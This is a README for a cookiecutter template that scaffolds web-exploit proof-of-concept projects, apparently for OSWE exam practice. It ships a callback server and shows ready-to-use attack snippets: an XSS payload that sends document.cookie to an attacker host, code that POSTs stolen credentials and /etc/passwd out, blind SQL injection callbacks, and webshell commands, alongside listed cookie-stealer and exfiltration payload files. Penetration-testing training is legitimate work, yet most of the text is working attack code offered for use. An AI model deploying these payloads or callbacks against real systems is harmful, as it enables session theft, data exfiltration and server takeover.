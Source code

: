 # {{ cookiecutter.project_name }}

**Target URL:** {{ cookiecutter.target_url }}

## Quick Start

```bash
# 1. Start callback server (terminal 1)
uv run {{ cookiecutter.project_slug }} --server

# 2. Run exploit (terminal 2)
uv run {{ cookiecutter.project_slug }} -t http://target.com
```

## Writing Your Exploit

Edit `src/{{ cookiecutter.project_slug }}/exploit.py`:

```python
from {{ cookiecutter.project_slug }}.utils.output import out

def run(args):
    target = args.target.rstrip('/')

    out.info("Testing target...")
    resp = requests.get(f"{target}/vulnerable-endpoint", verify=False)

    if "vulnerable" in resp.text:
        out.success("Target is vulnerable!")

        # Trigger callback to your server
        requests.get("http://your-ip:8000/success")
    else:
        out.error("Not vulnerable")
```

## Utilities Available

### Colored Output
```python
from {{ cookiecutter.project_slug }}.utils.output import out

out.success("Exploited!")
out.error("Failed")
out.info("Trying...")
out.warning("Slow connection")
```

### Encoding/Decoding
```python
from {{ cookiecutter.project_slug }}.utils.encoding import base64_encode, url_encode

payload = base64_encode("admin' OR '1'='1")
encoded = url_encode("<script>alert(1)</script>")
```

### Timing Utilities
```python
from {{ cookiecutter.project_slug }}.utils.timing import time_ms, identify_timestamp, epoch_range

# Generate timestamp
token = time_ms()

# Identify unknown timestamp
info = identify_timestamp("1735689600000")
print(info['type'])  # epoch_milliseconds
print(info['date'])  # 2025-01-01 00:00:00

# Generate epoch range - now accepts epoch timestamps directly!
timestamps = epoch_range(1735689600, 1735776000, step_minutes=60)  # Using epoch
timestamps = epoch_range('2025-01-01 00:00:00', '2025-01-02 00:00:00')  # Using strings
```

### Process Execution
```python
from {{ cookiecutter.project_slug }}.utils.process import run

# Run binary
stdout, stderr, code = run("./exploit")

# With input
stdout, stderr, code = run("./vulnerable", input_data=payload)
```

## Server Usage

The built-in server (`servers/server.py`):
- **Serves payloads** from `payloads/` directory
- **Logs all requests** to `logs/server.ndjson`
- **CORS enabled** for XSS testing

### Start Server
```bash
# Via CLI (default port 8000)
uv run {{ cookiecutter.project_slug }} --server

# Custom port
uv run {{ cookiecutter.project_slug }} --server --lport 8080

# Bind to specific interface
uv run {{ cookiecutter.project_slug }} --server --lhost 10.10.14.5 --lport 8080

# Direct module execution
python -m {{ cookiecutter.project_slug }}.servers.server
```

### Check Logs
```bash
# Watch in real-time
tail -f logs/server.ndjson | jq .

# Search for specific callbacks
grep "xss" logs/server.ndjson | jq .
```

### Apache Fallback (OSWE Exam)

If exam requires Apache2, use `apache_hooks.py` instead of `server_hooks.py`:

```python
# Change this:
# from utils.server_hooks import get_cookie

# To this:
from utils.apache_hooks import get_cookie

# Same API, reads Apache logs instead
cookie = get_cookie('/var/log/apache2/access.log', timeout=30)
```

No server needed - just reads Apache access logs directly!

## Included Payloads

### XSS (`payloads/xss/`)
- `examples.txt` - Copy-paste XSS payloads
- `steal-cookie.js` - Cookie stealer
- `steal-all.js` - Full data exfiltration

Example:
```html
<img src=x onerror="fetch('http://your-ip:8000/xss?c='+btoa(document.cookie))">
```

### Webshells (`payloads/shells/`)
- `cmd.jsp` - Java servers
- `cmd.aspx` - .NET/IIS servers
- `cmd.php` - PHP servers

All shells use same interface:
```python
resp = requests.get("http://target/shell.jsp?cmd=whoami")
print(resp.text)
```

## Common Code Snippets

### HTTP Requests
```python
import requests
requests.packages.urllib3.disable_warnings()  # Disable SSL warnings

session = requests.Session()
session.verify = False  # Skip SSL verification
session.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
```

### Blind Exploitation Callbacks
```python
# SQLi boolean-based
if "admin" in result:
    requests.get(f"http://your-ip:8000/sqli?char={char}&pos={pos}")

# Time-based confirmation
import time
start = time.time()
make_request()
if time.time() - start > 5:
    requests.get(f"http://your-ip:8000/blind?confirmed=true")
```

### Data Exfiltration
```python
# POST JSON data
stolen_data = {"username": "admin", "password": "found_it"}
requests.post('http://your-ip:8000/exfil', json=stolen_data)

# POST file contents
with open('/etc/passwd', 'r') as f:
    requests.post('http://your-ip:8000/file', data=f.read())
```

## CLI Options

```bash
{{ cookiecutter.project_slug }} --help

Options:
  -t, --target URL     Target URL (default: {{ cookiecutter.target_url }})
  -p, --proxy URL      HTTP proxy for requests
  --threads N          Number of threads
  -v, --verbose        Verbose output
  --server             Start callback server
  --lhost IP           Local host for server/callbacks (auto-detected)
  --lport N            Local port for server/callbacks (default: 8000)
```

## Files

- `src/{{ cookiecutter.project_slug }}/exploit.py` - **Main exploit code** (edit this!)
- `src/{{ cookiecutter.project_slug }}/utils/` - Helper utilities
- `servers/server.py` - HTTP callback server
- `payloads/` - XSS payloads and webshells
- `logs/server.ndjson` - Server request logs

---

Template: [cookiecutter-poc](https://github.com/kwkeefer/cookiecutter-poc)
